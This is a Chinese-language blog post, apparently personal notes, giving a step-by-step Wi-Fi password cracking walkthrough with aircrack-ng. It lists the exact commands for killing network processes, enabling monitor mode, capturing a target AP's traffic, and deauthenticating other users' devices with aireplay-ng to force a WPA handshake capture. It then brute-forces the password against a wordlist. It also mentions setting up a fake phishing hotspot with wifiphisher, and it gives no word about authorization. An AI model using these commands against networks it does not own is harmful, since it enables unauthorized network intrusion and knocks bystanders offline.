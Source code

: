 ```yaml
---
thumbnail: https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/thumbnail/st.jpg
title: aircrack-ng破解wifi
date: 2020-5-4
author: shepherd
toc: ture
categories: [操作系统,Linux]
tags: [aircrack-ng]
---
```


但是使用wifiphisher的情况并没有我想象的那样强大，应该是我的操作问题吧，只是生成了一个假热点，并将用户重定向至钓鱼页面，并没有断开连接原来wifi的设备

在查找资料时碰到了这个工具包，有一个功能就是强制断开他人的wifi，挺有趣的记下笔记

<!-- more -->

使用前提，支持监听注入的网卡

## step1

使用`iwconfig`查看网卡加载情况

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/iwconfig.png)

## step2

`airmon-ng check kill`杀掉所有网络进程

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/kill-net.png)

如果杀掉后自动启动的话，建议使用`systemctl stop`杀得彻底些

## step3

`airmon-ng start wlp0s20f0u1`启动网卡监听模块

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/start-mon.png)

注意网卡名字会变成`wlp0s20f0u1mon`

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/monitor.png)

## step4

`airodump-ng wlp0s20f0u1mon`开始监听

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/net-monitor.png)

- PWR是信号强度，越小信号越强
- CH代表信道

## step5

`airodump-ng -c 6 --bssid 网络mac地址 -w filename wlp0s20f0u1mon`开始抓包

- -c，指的是信道CH
- --bssid，指的是AP mac地址
- -w，输出的文件路径

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/airodump-ng.png)

`STATION`代表的是设备mac，由几个mac就代表有几个设备

当有设备重新连接时，就会抓到握手包，放到`-w`指定的文件里，下一步介绍强制掉线

## step6

`aireplay-ng -0 0 -a AP_mac -c 设备mac wlp0s20f0u1mon`强制wifi掉线

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/aireplay-ng.png)

重连时就会抓到握手包

![](https://cdn.jsdelivr.net/gh/shepherdev/shepherdev.github.io@hexo/static/article/2020/handsnake.png)

## step7

`aircrack-ng -a2 -b AP_mac -w 字典.txt filename.cap`跑字典，爆破密码

字典去网上找吧

## 参考文献

[【无线攻防】使用aircrack-ng工具破解wifi密码](https://blog.csdn.net/nuoya_1995/article/details/52402728)